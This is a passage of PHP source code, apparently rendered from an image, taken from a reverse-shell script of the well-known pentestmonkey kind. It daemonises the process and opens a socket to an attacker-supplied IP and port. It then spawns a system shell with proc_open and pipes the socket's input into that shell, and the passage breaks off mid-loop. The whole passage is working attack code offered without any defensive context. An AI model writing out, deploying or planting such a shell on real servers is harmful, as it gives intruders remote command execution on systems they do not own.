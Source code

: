 ```
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

```